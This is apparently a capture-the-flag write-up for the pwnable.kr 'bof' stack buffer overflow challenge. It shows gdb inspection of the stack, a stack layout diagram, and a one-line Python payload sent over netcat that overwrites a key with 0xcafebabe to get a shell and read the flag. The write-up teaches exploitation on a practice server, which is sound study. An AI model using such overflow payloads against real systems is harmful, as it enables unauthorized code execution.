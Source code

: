 #### pwnable-kr
##### Toddler's Bottle | bof challenge
**Note** </br>
if you are using 64 bit machine you need to install these:</br>
```
 $ sudo apt-get install libc6-i386
 $ sudo apt-get install g++-multilib
```

with these you can run bof in your system :) </br>
there are 2 way to solve this problem.

---
**one** </br>
use `gdb bof` and put breakpoint on func </br>
use `run` command and enter 32 `A` in the input </br>
Ok, lets inspect the memory. We can use `xw` to display 32bit words (instead of 8, making it easier for us to see our patterns).
```
(gdb) x/20xhw $esp
```
you can see 5 word after `A`s there is `deadbeaf`; so we must enter 13 word `A` (it means 52 `A`) and after than  `cafebabe` on the input.</br>

so use this command to make if condition be `TRUE` and after than write `cat flag` to see the flag.
</br>
```
$ (python -c "print 'A'*52+'\xbe\xba\xfe\xca'") | nc pwnable.kr 9000
```
---
**TWO**</br>
use `objdump`; on `func` you can see `$epb` has `0x2C` length.</br>
in this program, memory schema is like this:
```
|--------------------| High address
|                    |
|--------------------|
|  int key (4 Bytes) | <- method parameters
|--------------------|
|   SEIP (4 Bytes)   | <- saved EIP;(also called program counter) 
|--------------------|
|   sebp (4 Bytes)   | <- saved ebp
|--------------------|
|                    |
|        ebp         |
|    (0x2C Bytes)    |
|                    |
|--------------------|
|                    |
|--------------------| Low address
```
 so after you understand that you can write a code like [this](https://gist.github.com/Aseyed/db9c9685fef7f3b9399378f868aff3a3#file-pwnable-kr_bof-py) </br>
 run the code with python2 after that you can run `cat flag` to catch the flag

